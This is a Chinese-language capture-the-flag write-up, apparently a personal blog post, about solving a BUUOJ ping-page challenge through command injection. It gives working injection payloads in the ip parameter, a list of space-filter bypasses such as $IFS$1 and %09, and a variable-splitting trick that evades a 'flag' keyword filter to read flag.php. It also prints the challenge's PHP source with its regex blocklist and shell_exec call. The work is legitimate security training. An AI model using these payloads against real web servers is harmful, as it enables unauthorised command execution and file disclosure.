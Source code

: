 依旧是随便点开的一个题目，但很有趣。
主要是想用用firefox渗透版，不太想每次打开burp suite。
于是打开靶场，扑面而来一个
`/?ip=`
（如果有点觉悟就会想起来之前做的文件上传从而意识到这是个URL地址符提示。不过我当时没有，甚至在想这是什么代码……php？html？）
于是熟练的打开edge查询wp。
于是
```URL
http://2993ad62-21c8-4f1d-b4d6-05bdd7130b70.node4.buuoj.cn:81/?ip=127.0.0.1;ls
```
（问为什么是ls我还能说是shell命令，问为什么是127.0.0.1这……）
喜提

```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
这告诉我们有两个php文件，名字如上。

再用`cat`命令

```url
/?ip=xxx;cat flag.php
```

喜提`fuck your space`。
好嘛，用能想到的space替换符，%20之类的，毫不意外不行。
wp提供了更多的绕过space：
```txt
${IFS}
$IFS$1
${IFS
<> or < 重定向符替换
%09
```
原博一个个试后告诉大家，`$IFS$1`行得通。

```URL
https://xxx/?ip=127.0.0.1;cat$IFS$1flag.php
```

又告诉你不行——因为flag被过滤了。
试一下index.php，
```php
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
```

解释一下就是：

- 1. `PING 127.0.0.1 (127.0.0.1): 56 data bytes`：这是一个命令行输出，表示将对IP地址 127.0.0.1 进行Ping测试。`/?ip=`：这是一个URL参数，用于接收要测试的目标IP地址。

- 2. `|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match))`：这是一个正则表达式，用于检查输入的IP地址是否包含特定的符号（ `'`, `"`, `\`, `(`, `)`, `[`, `]`, `{`, `}`）。然后 `echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);`：这一行判断输入的IP地址是否包含特殊字符，并输出匹配结果。最后`die("fxck your symbol!");`：如果前面的正则表达式匹配到特殊字符，将输出错误信息并终止程序运行。

- 3. `preg_match("/ /", $ip)`：这是一个正则表达式，用于检查输入的IP地址是否包含空格。然后`die("fxck your space!");`：如果输入的IP地址包含空格，将输出错误信息并终止程序运行。后面都一样就不重复了。

- 4.  `$a = shell_exec("ping -c 4 ".$ip);`：执行Ping命令，通过shell_exec函数在操作系统中运行命令，并将结果存储在变量$a中。

- 5.`print_r($a);`：打印Ping命令的结果，显示Ping测试的输出信息。


看完这么多过滤，基本可以确定没什么常规的可以写了。
于是一个有趣的就来了：
**改变变量值**

有一个变量`$a`，原本的值是第4条说的，我们进行人为修改（它也没禁止）：
```url
https://xxx/?ip=xxxx;a=g;cat$IFS$1fla$a.php
```
解释一下就是：
```python
a=g
flag=fla$a
```
不懂的永别了.jpg
然后就变成了初始界面。很懵逼是吧。
查看页面源代码获得惊喜。至于为什么会这样待我研究一下再来说。

